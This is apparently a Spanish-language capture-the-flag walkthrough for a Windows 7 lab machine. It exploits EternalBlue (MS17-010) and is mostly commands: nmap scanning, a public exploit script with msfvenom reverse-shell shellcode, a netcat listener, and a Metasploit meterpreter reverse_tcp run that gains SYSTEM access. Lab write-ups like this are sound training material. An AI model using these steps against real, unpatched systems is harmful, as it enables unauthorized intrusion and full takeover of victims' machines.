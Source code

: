 ## Summary

Tags: #Windows #EternalBlue 

- IP -> 10.10.10.40
- Ports -> TCP (135, 139, 445, 49152 ... 49157), UDP (idk)
- OS ->  Windows 
- Services & Applications
    - 445 -> Windows 7 Proffesional 7601 Service Pack 1 
    -  -> 


## Launchpad

-   **Launchpad**: [https://launchpad.net/ubuntu](https://launchpad.net/ubuntu)

## Recon

```bash
❯ ping -c 1 10.10.10.40                         # Para saber si la maquina esta activa o no (ttl=64 Linux, ttl=128 Windows)

	# IP = IP Address de la maquina target 
	# c = Numero de pings a ejecutar
```

```bash 
❯ nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn ❮Target IP❯  -oG allPorts       # Escaneo en la Capa 4 del modelo OSI

❯ nmap -sCV -p22,... ❮Target IP❯ -oN targeted

	#  p22,... = Indica los puertos que se quieren escanear
	#  sC = Lanza scripts básicos de enumeración
	#  sV = Enumera la versión y servicio que está corriendo en los puertos
	#  Target IP = Dirección IP que se quiere escanear
	#  oN targeted = Exporta el output a un fichero en formato nmap con nombre “targeted”
```

Para saber si es vulnerable al Eternal Blue
```bash 
❯ nmap -sV -p445 --script=smb-vuln-ms17-010 ❮Target IP❯             # Para ver si es vulnerable al EternalBlue

❯ nmap --script "vuln and safe" -p445 ❮Target IP❯ -oN smbVulnScan   # Para ver si este servicio es vulnerable al EternalBlue (ms17-010) en Windows 7.

	#  p445 = Indica el puerto que se quiere escanear
	#  Target IP = Dirección IP que se quiere escanear
	#  oN smbVulnScan = Exporta el output a un fichero en formato nmap con nombre “smbVulnScan”
	#  vuln and safe = Detecta vulnerabilidades de forma segura, sin experimentar un DoS
```

Descargamos el exploit del EternalBlue de la siguiente pagina:
```python
❯ python2.7 eternal_checker.py 10.10.10.40              # Debemos de ver que alguno de los resultados nos ponga 'Done' y que no esta parchado
```

Ahora nos vamos al dir 'ShellCode' y ejecutamos lo siguiente:
```shell
❯ ./shell_prep.sh               # Ejecutamos el binario para ir preparando los archvios 'Msfvenom'

	# Y                        # Generar una ReverShell
	# 10.10.14.22              # Colocamos nuestra IP LHOST
	# 443                      # El puerto de escucha de nuestra maquina para x64 y x86
	# 1                        # Generar una Shell regular 
	# 1                        # Usar un Stageless payload
```

Una vez obtenido los archivos, hacemos lo siguiente:
```python 
❯ chmod +x eternalblue_exploit7.py     # Le damos permisos de ejecucion

❯ python2.7 eternalblue_exploit7.py 10.10.10.40 ./shellcode/sc_x64.bin

	# exploit7 = Windows 7
	# IP = Maquina victima 
	# Path = Donde se encuentra el archivo sc_x64.bin
```

```bash 
❯ rlwrap nc -nlvp 443           # Nos ponemos en escucha por el puerto 443
```

Ejecutamos el comando anterior y obtenemos la consola como nt authority/system

## Usando Metasploit 

Saber la versión de Windows y si es vulnerable al eternalblue
```bash 
# Para ver si el Windows en vulnerable al EternalBlue
❯ msfconsole -q                                    # q = Quitar el banner de inicio

	❯ use auxiliary/scanner/smb/smb_ms17_010      # Usamos el auxiliar
	❯ options
	❯ set RHOSTS 192.168.1.194                    # Colocamos la IP de la maquina victima
	❯ run 
```

```bash 
# Usaremos el EternalBlue SMBv1
❯ msfconsole -q                  # q = Quitar el banner de inicio

	❯ use exploit/windows/smb/ms17_010_eternalblue      # Usamos el exploit
	❯ options
	❯ set payload windows/x64/meterpreter/reverse_tcp
	❯ set LHOST 192.168.1.157                          # Colocamos la IP de nuestra maquina 
	❯ set RHOSTS 192.168.1.194                         # Colocamos la IP de la maquina victima
	❯ exploit 


# Ahora somos NT Authority\System
```

